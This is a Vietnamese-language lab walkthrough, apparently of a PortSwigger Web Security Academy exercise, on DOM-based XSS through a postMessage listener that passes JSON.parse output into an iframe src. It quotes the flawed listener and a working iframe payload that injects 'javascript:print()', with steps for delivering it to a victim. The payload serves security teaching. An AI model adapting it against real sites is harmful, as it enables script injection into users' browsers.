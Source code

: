 ```
window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
```
addEventListener() này nhận một chuỗi được phân tích cú pháp bằng JSON.parse (). Trong JavaScript, chúng ta có thể 
thấy rằng trình xử lý sự kiện mong đợi một thuộc tính và trường hợp load-channel của câu lệnh switch 
sẽ thay đổi thuộc tính iframe src. 
 Chúng ta có thể xây dưng payload dựa trên khung iframe sau : 
```
<iframe src=![img](https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{
\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

Chúng ta truy cập vào Exploit Server để Store đoạn payload lên và trở thành 1 phần của website 
sau đó Deliver to Victim để gửi đến website mà chúng ta muốn exploit 

![img](https://github.com/datnlq/Source/blob/main/DOM_based/image/DOMXSS_Json_exploit.jpg?raw=true)

Khi iframe được load, phương thức postMessage () sẽ gửi một thông báo web đến trang chủ website với load-channel.
The event listener nhận được thông báo và phân tích cú pháp nó bằng cách sử dụng JSON.parse ()
trước khi gửi nó đến switch.

Switch kích hoạt trường hợp load-channel, gán thuộc tính url của thông báo cho thuộc tính src của 
iframe ACMEplayer.element. Trong trường hợp này, thuộc tính url của thư thực sự chứa 
payload JavaScript mà chúng ta đã tạo

Vì đối số thứ hai chỉ định rằng bất kỳ targetOrigin nào đều được phép cho thông báo web và trình 
xử lý sự kiện không chứa bất kỳ hình thức kiểm tra nguồn gốc nào,payload được đặt làm src của 
iframe ACMEplayer.element. Hàm print () được gọi khi nạn nhân load website. 
